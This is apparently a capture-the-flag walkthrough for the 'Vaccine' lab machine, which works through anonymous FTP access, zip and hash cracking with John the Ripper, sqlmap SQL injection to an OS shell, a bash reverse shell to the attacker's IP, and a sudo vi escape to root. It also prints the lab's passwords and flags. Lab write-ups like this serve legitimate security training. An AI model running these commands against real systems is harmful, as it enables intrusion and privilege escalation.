### Vaccine

**OS:** Linux<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 2](/StartingPoint/Tier2/)<br><br>
**Tags:** Vulnerability Assessment, Databases, Custom Applications, Protocols, Source Code Analysis, Apache, PostgreSQL, FTP, PHP, Reconnaissance, Password Cracking, SUDO Exploitation, SQL Injection, Remote Code Execution, Clear Text Credentials, Anonymous/Guest Acces<br>


---

#### Task 1
**Besides SSH and HTTP, what other service is hosted on this box?**
> FTP




---

#### Task 2
**This service can be configured to allow login with any password for specific username. What is that username?**
> anonymous




---

#### Task 3
**What is the name of the file downloaded over this service?**
> backup.zip




---

#### Task 4
**What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?**
> zip2john

We try to use the `unzip` command to unzip the zip archive `backup.zip`, but can't because it's password protected. We use the `zip2john` command to convert `backup.zip` into a format `backup.hash` that allow for cracking attempts:



We use John The Ripper with the builtin wordlist `/usr/share/wordlists/john.lst` to crack `backup.hash`. We find that the password is `741852963` and are able to unzip the zip archive `backup.zip`:




---

#### Task 5
**What is the password for the admin user on the website?**
> qwerty789

We look at the `index.php` file from `backup.zip` and see that the password for the admin user is hardcoded into the website:



The MD5 Hash of the password for the admin user is `2cb42f8734ea607eefed3b70af13bbd3`. We use John The Ripper with the builtin wordlist `/usr/share/wordlists/rockyou.txt` to crack the hash and get that the the password for the admin user is `qwerty789`:



We login to the target machine's website using the credentials `admin` and `qwerty789`:



---

#### Task 6
**What option can be passed to sqlmap to try to get command execution via the sql injection?**
> --os-shell

The target website has a PHPSESSID session cookie which preserves the state of the website (for that session). Since we previously logged into the target website, visiting any page of the target website using that same PHPSESSID session cookie will allow us to remain logged in. 

We use the command:

```Bash
sqlmap -u "http://{TARGET IP}/dashboard.php?search=tmp" --cookie="PHPSESSID="{SESSION KEY}" --os-shell
```

Now we have a shell as the postgres user on the target machine:



---

#### Task 7
**What program can the postgres user run as root using sudo?**
> vi

Our sqlmap bash shell doesn't save the state of the machine after each command so we need to create a bash reverse shell. We setup a Netcat listener on our machine on port `4242` and then start our reverse shell using the sqlmap bash shell on the target machine:

```bash
bash -c "bash -i >& /dev/tcp/{OUR IP}/4242 0>&1"
```

Now we can send the target machine commands:



We can use the command `sudo -l` to list commands that the postgres user is allowed to run as root, but we need the postgres user's password. We search the files for the website for a line containing both `postgres` and `pass`:

```bash
grep -nr 'postgres' /var/www/html | grep 'password'
```

We get that the password for the postgres user is `P@s5w0rd!`:



We don't have a fully functional reverse shell, so we use the credentials for the postgres user to login using SSH. We run the `sudo -l` command and see that the postgres use can only run the `vi` command as root to edit the `/etc/postgresql/11/main/pg_hba.conf` file:




---

#### User Flag
> ec9b13ca4d6229cd5cc1e09980965bf7

We get the postgres user flag from our os-shell:




#### Root Flag
> dd6e058e814260bc70e9bbdef2715849


The `/etc/postgresql/11/main/pg_hba.conf` has root permissions and we can use vim as root to edit it:

```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Since we opened the vim editor, we can use the commands to get a shell as root:

```
:set shell=/bin/sh
:shell
```

Then we find the flag:



---